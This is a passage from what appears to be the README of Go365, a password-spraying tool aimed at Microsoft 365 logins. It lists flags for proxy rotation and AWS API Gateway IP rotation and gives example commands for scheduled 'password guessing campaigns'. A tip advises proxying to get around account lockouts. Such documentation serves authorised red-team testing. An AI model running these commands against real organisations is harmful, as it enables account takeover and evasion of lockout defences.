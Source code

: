 ```
    -proxyfile <string>         A file with a list of SOCKS5 proxy servers to use
                                : IP address and Port separated by a ":" on each line
                                : Randomly selects a proxy server to use before each request
                                : (-proxyfile ./proxyfile.txt)

    -url <string>               Endpoint to send requests to
                                : Amazon API Gateway 'Invoke URL'
                                : Highly recommended that you use this option. Google it, or
                                : check this out: https://bigb0sss.github.io/posts/redteam-rotate-ip-aws-gateway/
                                : (-url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login)

    -ak <string>                AWS Access Key
                                : Used for automatic API gateway deployment

    -sk <string>                AWS Secret Key
                                : Used for automatic API gateway deployment.

    -cleanup                    Cleanup AWS gateways
                                : Cleans up automatically deployed AWS gateways. -ak and -sk are required for this flag.

    -debug                      Debug mode.
                                : Print xml response
```

### Examples

```
  ./Go365 -endpoint rst -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5
  ./Go365 -endpoint rst -up ./userpass_list.txt -delay 3600 -d pwnthisfakedomain.com -w 5 -o Go365output.txt
  ./Go365 -endpoint graph -u legituser -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxy 127.0.0.1:1080
  ./Go365 -endpoint rst -u legituser -pl ./pass_list.txt -delay 1800 -d pwnthisfakedomain.com -w 5 -o Go365output.txt -proxyfile ./proxyfile.txt
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login
  ./Go365 -endpoint graph -ul ./user_list.txt -p 'coolpasswordbro!123' -d pwnthisfakedomain.com -w 5 -o Go365output.txt -ak <AWS access key> -sk <AWS secret key>

  You can even schedule out your entire password guessing campaign using the -pl and -delay flags :)
  ./Go365 -endpoint rst -ul ./user_list.txt -d pwnthisfakedomain.com -w 5 -o Go365output.txt -url https://notrealgetyourown.execute-api.us-east-2.amazonaws.com/login -proxyfile listofprox.txt -pl listofpasswords.txt -delay 7200

  

  *Protip: If you get a lot of "Account locked out" responses, then you might wanna proxy or use an AWS Gateway.
```
